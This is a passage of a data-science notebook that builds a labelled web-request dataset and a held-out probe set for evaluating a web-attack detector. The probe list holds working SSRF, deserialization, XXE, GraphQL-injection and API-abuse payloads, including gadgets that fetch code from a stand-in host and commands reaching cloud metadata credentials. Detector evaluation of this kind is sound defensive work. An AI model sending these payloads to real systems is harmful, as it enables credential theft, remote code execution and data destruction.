

Saved → data/processed/01_distributions.png


In [38]:
# FIX: plt imported in Cell 3 — no missing import

df_all["url_len"]  = df_all["url"].str.len().fillna(0)
df_all["body_len"] = df_all["body"].str.len().fillna(0)

fig, axes = plt.subplots(1, 3, figsize=(16, 4))

for label, grp in df_all.groupby("label"):
    axes[0].hist(grp["url_len"].clip(0, 500), bins=40, alpha=0.6, label=label)
axes[0].set_title("URL length distribution")
axes[0].set_xlabel("URL length (chars)")
axes[0].legend()

df_all["attack_class"].value_counts().plot(kind="bar", ax=axes[1], color="steelblue")
axes[1].set_title("Attack class distribution")
axes[1].set_ylabel("Count")
axes[1].tick_params(axis="x", rotation=30)

df_all.groupby("source")["label_id"].mean().sort_values().plot(
    kind="barh", ax=axes[2], color="coral")
axes[2].set_title("Attack rate by source")
axes[2].set_xlabel("Attack fraction")

plt.tight_layout()
PROC_DIR.mkdir(parents=True, exist_ok=True)
plt.savefig(PROC_DIR / "01_distributions.png", dpi=120)
plt.show()
print(f"Saved → data/processed/01_distributions.png")

## 9. Save combined CSV

In [39]:
# ── Save combined (balanced) CSV ─────────────────────────────────────────────
# Guard: ensure the balanced dataset is what gets saved, not the 98K raw one
# CHANGED: threshold loosened from a hard 20,000 cutoff. Family-safe
# capping (Cell "## 7. Fix class imbalance") can overshoot the nominal caps
# slightly since it never splits a family across the cap boundary — so the
# exact row count is no longer a fixed ~14K, just meaningfully smaller than
# the ~98K raw combined total.
assert len(df_all) < 30000, (
    f"Expected balanced dataset (well under raw ~98K rows), got {len(df_all):,}. "
    "Run the balance cell (## 7. Fix class imbalance) before this cell."
)
assert "family_id" in df_all.columns, (
    "family_id column missing — run the '## 6b. Compute family_id' cell "
    "before balancing/saving."
)

out_path = PROC_DIR / "csic_parsed.csv"
df_all.to_csv(out_path, index=False)
print(f"Saved {len(df_all):,} rows → {out_path}")
print(f"  (balanced dataset — imbalance ratio: "
      f"{df_all['attack_class'].value_counts().max() / df_all['attack_class'].value_counts().min():.1f}:1)")
print(f"\nClass counts in saved file:")
print(df_all["attack_class"].value_counts().to_string())
print(f"\nColumn dtypes:")
print(df_all[["url","method","body","label","label_id","attack_class","attack_class_id","source","family_id"]].dtypes)


Saved 25,719 rows → /kaggle/working/data/processed/csic_parsed.csv
  (balanced dataset — imbalance ratio: 6.9:1)

Class counts in saved file:
attack_class
sqli            12855
normal           5000
other_attack     3003
lfi              3000
xss              1861

Column dtypes:
url                object
method             object
body               object
label              object
label_id            int64
attack_class       object
attack_class_id     int64
source             object
family_id          object
dtype: object


# ── markdown cell (replaces the earlier shorter version) ──
# 10. Modern attack probe set (test-only — SSRF, insecure deserialization,
#     API abuse, GraphQL injection)
NEVER merged into csic_parsed.csv / never touches the balance-and-cap cell.
Same treatment as WAF-A-MoLE: evaluation-only, held completely separate
 from anything the model trains on.

 v2: expanded from 39 -> 68 rows based on team review. Added:
   - IP/URL obfuscation variants (decimal/hex/octal IP, URL-encoding,
     double-encoding, mixed case, alt schemes) for SSRF — clean payloads
    alone under-test generalization, attackers rarely send them plainly.
  - GraphQL alias abuse, fragment abuse, batched requests, recursive
    fragments — alongside the existing introspection/nesting/SQLi cases.
   - API abuse: mass assignment, BOLA/IDOR, HTTP verb confusion — alongside
     existing price/limit/field-overexposure cases.
   - Deserialization: NodeJS, Ruby Marshal, .NET BinaryFormatter, Fastjson
    — alongside existing PHP/Python/Java/YAML/XML cases.

 Scope note unchanged: JWT manipulation and HTTP request smuggling are
 deliberately excluded — both are header/protocol-level attacks and the
 current feature extractor only reads url+body (headers is a known
 constant placeholder). Reported as a named limitation, not silently
 included with a meaningless recall number.

In [40]:
# ── code cell ──

MODERN_PROBE = [
    # ══════════════════════════════════════════════════════════════════════
    # SSRF — clean targets + obfuscation variants + alternate schemes
    # ══════════════════════════════════════════════════════════════════════

    # -- clean --
    ("ssrf", "GET",  "/?url=http://169.254.169.254/latest/meta-data/",                         "", "clean"),
    ("ssrf", "GET",  "/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/", "", "clean"),
    ("ssrf", "GET",  "/?callback=http://127.0.0.1:6379/",                                        "", "clean"),
    ("ssrf", "GET",  "/fetch?target=file:///etc/passwd",                                         "", "clean"),
    ("ssrf", "GET",  "/proxy?url=http://[::1]:80/admin",                                         "", "clean"),
    ("ssrf", "GET",  "/webhook?endpoint=http://localhost:22",                                    "", "clean"),
    ("ssrf", "GET",  "/?next=http://0.0.0.0:80/admin",                                           "", "clean"),
    ("ssrf", "GET",  "/?redirect=gopher://127.0.0.1:6379/_INFO",                                 "", "clean"),
    ("ssrf", "GET",  "/import?src=http://169.254.169.254/computeMetadata/v1/",                   "", "clean"),
    ("ssrf", "GET",  "/?image=http://internal-admin.local:8080/status",                          "", "clean"),
    ("ssrf", "POST", "/api/webhook/register", '{"callback_url":"http://169.254.169.254/latest/meta-data/"}', "clean"),
    ("ssrf", "POST", "/api/import",           '{"source":"http://127.0.0.1:9200/_all/_search"}',            "clean"),

    # -- IP obfuscation (same target, encoded differently) --
    ("ssrf", "GET", "/?url=http://2852039166/latest/meta-data/",                       "", "decimal_ip"),
    ("ssrf", "GET", "/?url=http://0xA9FEA9FE/latest/meta-data/",                       "", "hex_ip"),
    ("ssrf", "GET", "/?url=http://0251.0376.0251.0376/latest/meta-data/",              "", "octal_ip"),
    ("ssrf", "GET", "/?callback=http://2130706433:6379/",                              "", "decimal_ip"),
    ("ssrf", "GET", "/?url=http://0x7F.0x0.0x0.0x1/admin",                             "", "hex_ip"),

    # -- URL / char obfuscation --
    ("ssrf", "GET", "/?url=http%3A%2F%2F169.254.169.254%2Flatest%2Fmeta-data%2F",                    "", "url_encoded"),
    ("ssrf", "GET", "/?url=http%253A%252F%252F169.254.169.254%252Flatest%252Fmeta-data%252F",        "", "double_encoded"),
    ("ssrf", "GET", "/?url=HttP://169.254.169.254/latest/meta-data/",                                "", "mixed_case"),
    ("ssrf", "GET", "/?url=http://169.254.169.254/..%2e/latest/meta-data/",                          "", "path_dot_encoded"),
    ("ssrf", "GET", "/?url=http://169.254.169.254%2f%2elatest%2fmeta-data%2f",                       "", "slash_encoded"),

    # -- alternate schemes --
    ("ssrf", "GET", "/?url=ftp://169.254.169.254/",              "", "alt_scheme_ftp"),
    ("ssrf", "GET", "/?url=dict://127.0.0.1:11211/stat",         "", "alt_scheme_dict"),
    ("ssrf", "GET", "/?url=ldap://127.0.0.1:389/",                "", "alt_scheme_ldap"),
    ("ssrf", "GET", "/?url=jar:http://evil.test/x.jar!/",         "", "alt_scheme_jar"),

    # ══════════════════════════════════════════════════════════════════════
    # Insecure deserialization — PHP/Python/Java/YAML/XML + NodeJS/Ruby/.NET/Fastjson
    # ══════════════════════════════════════════════════════════════════════

    ("insecure_deserialization", "POST", "/api/session/restore",
        'O:8:"stdClass":1:{s:4:"data";s:6:"whoami";}', "php_object"),
    ("insecure_deserialization", "POST", "/api/cache/load",
        'a:2:{i:0;s:4:"eval";i:1;s:10:"phpinfo();"}', "php_array"),
    ("insecure_deserialization", "POST", "/api/import",
        '{"__proto__":{"isAdmin":true}}', "js_prototype_pollution"),
    ("insecure_deserialization", "POST", "/api/config/apply",
        '{"$type":"System.Windows.Data.ObjectDataProvider, PresentationFramework","MethodName":"Start","ObjectInstance":{"$type":"System.Diagnostics.Process"}}',
        "dotnet_objectdataprovider"),
    ("insecure_deserialization", "POST", "/api/settings/import",
        '!!python/object/apply:os.system ["id"]', "python_yaml"),
    ("insecure_deserialization", "POST", "/api/job/deserialize",
        "cos\nsystem\n(S'id'\ntR.", "python_pickle"),
    ("insecure_deserialization", "POST", "/api/user/preferences",
        'rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcA==', "java_serialized"),
    ("insecure_deserialization", "POST", "/api/report/load",
        '<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root>&xxe;</root>',
        "xxe"),
    ("insecure_deserialization", "POST", "/api/plugin/install",
        '{"class":"org.springframework.context.support.ClassPathXmlApplicationContext","constructorArgs":["http://evil.test/exploit.xml"]}',
        "java_spring_gadget"),
    ("insecure_deserialization", "POST", "/api/task/run",
        '{"rce":"_$$ND_FUNC$$_function(){require(\'child_process\').exec(\'id\')}()"}',
        "nodejs_serialize"),
    ("insecure_deserialization", "POST", "/api/profile/load",
        '\x04\bo:\x11ActiveSupport::Deprecation\x00\x06:\n@stack[\x00', "ruby_marshal"),
    ("insecure_deserialization", "POST", "/api/state/restore",
        'AAEAAAD/////AQAAAAAAAAAMAgAAAFdTeXN0ZW0uV2luZG93cy5EYXRhLCBWZXJzaW9u',
        "dotnet_binaryformatter"),
    ("insecure_deserialization", "POST", "/api/order/parse",
        '{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://evil.test:1389/Exploit","autoCommit":true}',
        "java_fastjson_jndi"),
    ("insecure_deserialization", "POST", "/api/gem/load",
        '--- !ruby/object:Gem::Requirement\nrequirements:\n  - - ">="\n    - !ruby/object:Gem::Version\n      version: "0"',
        "ruby_yaml"),

    # ══════════════════════════════════════════════════════════════════════
    # API abuse — original set + mass assignment, BOLA/IDOR, verb confusion
    # ══════════════════════════════════════════════════════════════════════

    ("api_abuse", "PATCH", "/api/v1/users/42",
        '{"user_id":42,"role":"admin","is_verified":true}', "privilege_escalation"),
    ("api_abuse", "GET",   "/api/v2/orders?limit=999999&offset=0", "", "resource_exhaustion"),
    ("api_abuse", "GET",   "/api/internal/debug?admin=true", "", "debug_flag_abuse"),
    ("api_abuse", "POST",  "/api/v1/checkout", '{"price":-100,"quantity":1}', "negative_price"),
    ("api_abuse", "GET",   "/api/v1/users?fields=*,password_hash,ssn,api_key", "", "field_overexposure"),
    ("api_abuse", "POST",  "/api/batch",
        '[{"op":"delete","id":1},{"op":"delete","id":2},{"op":"delete","id":3},{"op":"delete","id":4}]',
        "batch_abuse"),
    ("api_abuse", "GET",   "/api/v1/reset-password?user_id=1&token=", "", "auth_bypass"),
    ("api_abuse", "POST",  "/api/v1/coupons/APPLY100OFF/redeem",
        '{"user_id":1,"redeem_count":9999}', "business_logic_abuse"),
    ("api_abuse", "PUT",   "/api/v1/users/1/subscription",
        '{"plan":"enterprise","price_override":0}', "price_override"),
    ("api_abuse", "GET",   "/api/v1/export?table=users&format=json&all=true", "", "bulk_export_abuse"),

    ("api_abuse", "POST", "/api/v1/users/register",
        '{"email":"x@x.com","password":"pass123","is_admin":true}', "mass_assignment"),
    ("api_abuse", "PATCH", "/api/v1/users/42/profile",
        '{"display_name":"test","account_balance":999999}', "mass_assignment"),
    ("api_abuse", "GET",  "/api/v1/orders/1002", "", "bola_idor"),        # requested while authenticated as a different user
    ("api_abuse", "GET",  "/api/v1/invoices/551", "", "bola_idor"),       # same pattern, different resource
    ("api_abuse", "DELETE", "/api/v1/users/42/session", "", "verb_confusion"),
    ("api_abuse", "OPTIONS", "/api/v1/admin/config", "", "verb_confusion"),
    ("api_abuse", "PATCH", "/api/v1/users/42/role", '{"role":"superadmin"}', "verb_confusion"),

    # ══════════════════════════════════════════════════════════════════════
    # GraphQL injection — original set + alias abuse, fragment abuse,
    # batched requests, recursive fragments
    # ══════════════════════════════════════════════════════════════════════

    ("graphql_injection", "POST", "/graphql",
        '{"query":"{ __schema { types { name fields { name } } } }"}', "introspection"),
    ("graphql_injection", "POST", "/graphql",
        '{"query":"mutation { deleteUser(id: \\"1 OR 1=1\\") { success } }"}', "sqli_in_args"),
    ("graphql_injection", "POST", "/graphql",
        '{"query":"query { user(id: 1) { name email passwordHash apiKey } }"}', "field_overexposure"),
    ("graphql_injection", "POST", "/graphql",
        '{"query":"{ user(id: \\"1); DROP TABLE users;--\\") { id } }"}', "sqli_in_args"),
    ("graphql_injection", "POST", "/graphql",
        '{"query":"{ a { b { c { d { e { f { g { h { i { j { name } } } } } } } } } } }"}', "deep_nesting_dos"),
    ("graphql_injection", "POST", "/graphql",
        '{"query":"mutation { login(username: \\"admin\\x27 --\\", password: \\"x\\") { token } }"}', "sqli_in_args"),
    ("graphql_injection", "POST", "/graphql",
        '{"query":"query IntrospectionQuery { __type(name: \\"User\\") { fields { name type { name } } } }"}',
        "introspection"),
    ("graphql_injection", "POST", "/graphql",
        '{"query":"{ users(first: 999999) { edges { node { id email } } } }"}', "resource_exhaustion"),

    ("graphql_injection", "POST", "/graphql",
        '{"query":"{ a1: login(username:\\"admin\\",password:\\"a\\"){token} a2: login(username:\\"admin\\",password:\\"b\\"){token} a3: login(username:\\"admin\\",password:\\"c\\"){token} a4: login(username:\\"admin\\",password:\\"d\\"){token} }"}',
        "alias_abuse"),
    ("graphql_injection", "POST", "/graphql",
        '{"query":"{ user(id:1) { ...UserFields ...UserFields ...UserFields } } fragment UserFields on User { id name email passwordHash }"}',
        "fragment_abuse"),
    ("graphql_injection", "POST", "/graphql",
        '[{"query":"{ user(id:1){email} }"},{"query":"{ user(id:2){email} }"},{"query":"{ user(id:3){email} }"},{"query":"{ user(id:4){email} }"}]',
        "batched_requests"),
    ("graphql_injection", "POST", "/graphql",
        '{"query":"query { user(id:1) { ...F1 } } fragment F1 on User { friends { ...F1 } }"}',
        "recursive_fragment"),
]

df_probe = pd.DataFrame(
    MODERN_PROBE,
    columns=["probe_category", "method", "url", "body", "technique"],
)

df_probe["label"]           = "attack"
df_probe["label_id"]        = 1
df_probe["attack_class"]    = "modern_probe"   # fallback bucket if ever scored against the 5-class taxonomy
df_probe["attack_class_id"] = -1
df_probe["source"]          = "modern_attack_probe"

# Reuse the same family_id logic as the main dataset (defined earlier in
# this notebook) so the probe set is traceable the same way, even though
# it's never capped/balanced.
df_probe["family_id"] = df_probe.apply(compute_family_id, axis=1)

probe_path = PROC_DIR / "modern_attack_probe.csv"
df_probe.to_csv(probe_path, index=False)

print(f"Saved {len(df_probe)} probe rows -> {probe_path}")
print(f"\nBy category:")
print(df_probe["probe_category"].value_counts().to_string())
print(f"\nBy technique (top 15):")
print(df_probe["technique"].value_counts().head(15).to_string())
print(f"\nNOTE: JWT manipulation and HTTP request smuggling excluded — see markdown above.")

Saved 69 probe rows -> /kaggle/working/data/processed/modern_attack_probe.csv

By category:
probe_category
ssrf                        26
api_abuse                   17
insecure_deserialization    14
graphql_injection           12

By technique (top 15):
technique
clean                  12
sqli_in_args            3
verb_confusion          3
field_overexposure      2
resource_exhaustion     2
decimal_ip              2
hex_ip                  2
mass_assignment         2
introspection           2
bola_idor               2
path_dot_encoded        1
octal_ip                1
url_encoded             1
double_encoded          1
mixed_case              1

NOTE: JWT manipulation and HTTP request smuggling excluded — see markdown above.


In [41]:
full_csv = next((RAW_DIR / "httpparams").rglob("payload_full.csv"), None)
df_check = pd.read_csv(full_csv, low_memory=False)
df_check.columns = df_check.columns.str.strip().str.lower()
print(df_check.columns.tolist())
print(df_check[[c for c in df_check.columns if c in ['label','class','classification','type']][0]].value_counts().head(20))
print(df_check["attack_type"].value_counts())

['payload', 'length', 'attack_type', 'label']
label
norm    19304
anom    11763
Name: count, dtype: int64
attack_type
norm              19304
sqli              10852
xss                 532
path-traversal      290
cmdi                 89
Name: count, dtype: int64


In [44]:
# Sanity check against the documented CSIC 2010 dataset size (36,000 normal
# + ~25,065 attack). A count meaningfully above this signals stale/duplicate
# files in RAW_DIR/csic_2010 from a previous partial extraction.
EXPECTED_CSIC_TOTAL = 61065
tolerance = 0.05  # allow 5% drift for minor version differences
actual = len(df_csic_all)
if abs(actual - EXPECTED_CSIC_TOTAL) / EXPECTED_CSIC_TOTAL > tolerance:
    print(f"⚠️  CSIC row count ({actual:,}) is outside expected range "
          f"({EXPECTED_CSIC_TOTAL:,} ± {tolerance*100:.0f}%). "
          f"Check RAW_DIR/csic_2010 for stale/duplicate files before continuing.")
else:
    print(f"✅ CSIC row count ({actual:,}) matches documented dataset size.")

✅ CSIC row count (61,065) matches documented dataset size.
